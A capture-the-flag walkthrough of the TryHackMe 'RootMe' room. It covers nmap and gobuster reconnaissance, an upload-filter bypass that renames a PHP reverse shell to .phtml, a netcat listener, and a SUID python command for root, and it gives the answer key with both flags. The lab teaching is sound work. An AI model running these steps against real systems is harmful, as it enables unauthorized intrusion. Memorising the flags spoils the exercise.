


### Topic : TryHackMe Rooms (RootMe)
----

Task 1: Deploy the Machine

Establish a connection to the TryHackMe network using OpenVPN.
Deploy the virtual machine.
Create directories for the CTF machine and Nmap on the Desktop:

mkdir rootme
cd rootme
mkdir nmap

Task 2: Reconnaissance

Scan the machine with Nmap:

nmap -sC -sV -oN nmap/rootme <MACHINE_IP>

Q1: How many ports are open?
Answer: 2

Q2: What version of Apache is running?
Answer: 2.4.29

Q3: What service is running on port 22?
Answer: ssh

Find directories on the web server using GoBuster:

gobuster dir -u http://<MACHINE_IP> -w <PATH_TO_WORDLIST> -o -q

Q4: What is the hidden directory?
Answer: /panel/

Task 3: Getting a Shell

Navigate to <MACHINE_IP>/panel/ and find the file upload form.

Download the PHP reverse shell script:
git clone https://github.com/pentestmonkey/php-reverse-shell
Edit the script to set IP and port.
Rename the script to bypass upload restrictions:
mv php_reverse_shell.php php_reverse_shell.phtml
Upload the renamed script.

Set up a Netcat listener:
nc -lvnp 1234

Execute the uploaded script by navigating to <MACHINE_IP>/uploads/php_reverse_shell.phtml.

Find the flag:

find / -type f -name user.txt 2> /dev/null
cat /var/www/user.txt

Q5: What is the flag in user.txt?
Answer: THM{y0u_g0t_a_sh3ll}

Task 4: Privilege Escalation

Search for files with SUID permission:

find / -type f -user root -perm -4000 2>/dev/null

Q6: Which file is weird?
Answer: /usr/bin/python
Use GTFOBins to find a suitable privilege escalation command for Python.

Run the command to escalate privileges:
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Verify root access:

whoami
Find the root flag:

find / -type f -name root.txt
cat /root/root.txt

Q7: What is the flag in root.txt?
Answer: THM{pr1v1l3g3_3sc4l4t10n}

conclusion

In this challenge, we successfully deployed and connected to a virtual machine on TryHackMe. Through systematic reconnaissance using Nmap, we identified two open ports and discovered the services running on them. Further exploration with GoBuster revealed a hidden directory, leading us to a file upload vulnerability.

By utilizing a modified PHP reverse shell script, we gained a foothold on the system. From there, we escalated our privileges by leveraging a misconfigured SUID binary, achieving root access. Finally, we located and captured both user and root flags, demonstrating effective use of enumeration, exploitation, and privilege escalation techniques.

This exercise highlights the importance of thorough scanning, the utility of publicly available tools and scripts, and the necessity of proper system configuration to prevent such vulnerabilities.